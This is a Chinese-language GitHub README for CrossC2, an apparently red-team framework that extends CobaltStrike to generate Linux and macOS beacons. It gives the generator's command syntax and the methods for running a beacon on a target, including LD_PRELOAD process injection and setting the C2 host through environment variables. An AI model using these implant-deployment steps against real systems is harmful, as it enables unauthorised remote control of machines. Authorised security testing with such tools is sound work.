 # CrossC2 framework

![ Linux ](https://img.shields.io/badge/platform-Linux-green)
![ macOS ](https://img.shields.io/badge/platform-macOS-green)
[![GitHub issues-closed](https://img.shields.io/github/issues-closed/gloxec/CrossC2.svg)](https://GitHub.com/gloxec/CrossC2/issues?q=is%3Aissue+is%3Aclosed)
[![Release](https://img.shields.io/github/release/gloxec/CrossC2.svg)](https://github.com/gloxec/CrossC2/releases/latest)
[![Downloads](https://img.shields.io/github/downloads/gloxec/CrossC2/total?label=Release%20Download)](https://github.com/gloxec/CrossC2/releases/latest)



<p align="center">
  <img alt="CrossC2 Logo" src="media/16292585578533/CrossC2_logo.png" height="30%" width="30%">
</p>


[README](README.md) | [中文文档](README_zh.md) | [README_FULL](README_full.md) | [中文完整文档](README_zh_full.md) 


# CobaltStrike 支持说明

支持CobaltStrike对其他平台(Linux/MacOS/...)的安全评估，及包含Unix后渗透模块开发支持

|                 | CS3.14(bug fixes) | CS4.0 | CS4.X (4.1~4.8) |
|-----------------|----------|-------|---------------|
| Master分支        | ✅        |       |               |
| cs4.0分支         |          | ✅     |               |
| cs4.1分支         |          |       | ✅             |
|                 |          |       |               |
| Release 页面 <= v2.1 | ✅        |       |               |
| Release 页面 >= v2.2 |          |       | ✅             |

![2023-07-31 16.56.51](media/16292585578533/CrossC2_action.gif)


# Usage

Usage 链接: 

>  1. 下载

从 [Release页面](https://github.com/gloxec/CrossC2/releases) 下载:

1. **genCrossC2** (beacon生成器)
2. **CrossC2.cna** (GUI生成器插件) 修改`CrossC2.cna`配置并加载
3. **CrossC2Kit** (CrossC2相关插件) 加载 `CrossC2Kit_loader.cna`

>  2. 创建listener与拷贝key

* 创建`windows/beacon_https/reverse_https` listener
* 拷贝**teamserver目录**的 `.cobaltstrike.beacon_keys`到**本地**

>  3. 功能扩展

* 添加`CrossC2Kit_Loader.cna`, 包含内存加载等其它功能
* `cs4.x`版本文件管理、进程列表功能被CS官方移除，必须使用此Loader来重启

>  4. 生成beacon

默认使用cli或cna提供的GUI功能生成beacon

`genCrossC2 <listener-ip/domain> <listener-port> <beacon_keys> <rebind_library;config.ini;c2profile.profile> <target_platform> <target_arch>`
    
ex:

```
1. 从当前路径读取beacon Key并生成默认profile流量协议的beacon
    genCrossC2 127.0.0.1 5555 null null Linux x64 beacon.out
     
2. 指定自定义协议动态库的beacon
    genCrossC2 127.0.0.1 5555 .cobaltstrike.beacon_keys c2profile.so MacOS x64 beacon.out

3. 指定需要自动解析的c2profile
    genCrossC2 www.example.com 443 .cobaltstrike.beacon_keys ";;c2profile.profile" Linux x64 beacon.out
```

更多高级配置具体可见文档: [📄文档](https://github.com/gloxec/CrossC2/wiki/genCrossC2_zh)

> 5. 运行beacon

* 在目标上运行CrossC2插件生成的一键上线脚本
* 上传beacon至目标机器后进行赋权运行
* 以动态库方式注入其他进程执行: `LD_PRELOAD=/tmp/c2.so java`
* 为beacon设定工作目录并运行: `export CCPATH=/opt/ && /tmp/c2`
* 为beacon临时指定协议库并运行: `/tmp/c2 /tmp/c2-rebind.so`
* 为beacon临时设定C2配置: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`

# CrossC2Kit

CrossC2Kit: https://github.com/CrossC2/CrossC2Kit

CrossC2Kit 是围绕着CrossC2 衍生出的Unix平台后渗透扩展，采用 **Aggressor Script** 开源脚本引擎。可以用来创建自动化来模拟红队操作过程，以及扩展CobaltStrike客户端。

CrossC2Kit 整体继承于CobaltStrike原有的功能，所以开发与编写语法仍然参照官方文档: https://trial.cobaltstrike.com/aggressor-script/index.html

但它在 CrossC2 之上又进行了一些API拓展，用于控制 Unix 平台beacon

API: [📄文档](https://github.com/CrossC2/CrossC2Kit/wiki/API-Reference)

使用演示: ![CrossC2_action2](media/16292585578533/CrossC2_action2.gif)


# 提示

`仅做企业、组织内部自身使用，本框架具有一定脆弱性，非专业人员请勿使用，以及禁止用于非法用途及盈利等，否则造成经济损失等问题自行承担并追究其相关责任!`

# todo

1. http-proxy (auth) & socks 代理回连支持
2. node beacon? (单个节点式，可进行不依靠teamserver托管其他beacon)
- [x] 3. Linux & MacOS 端so/dylib的上线支持、及其衍生的进程注入等功能

# 感谢

感谢 **@Emma** 为CrossC2设计的Logo, 沿用 **Armitage** 、**CobaltStrike** 系列风格进行设计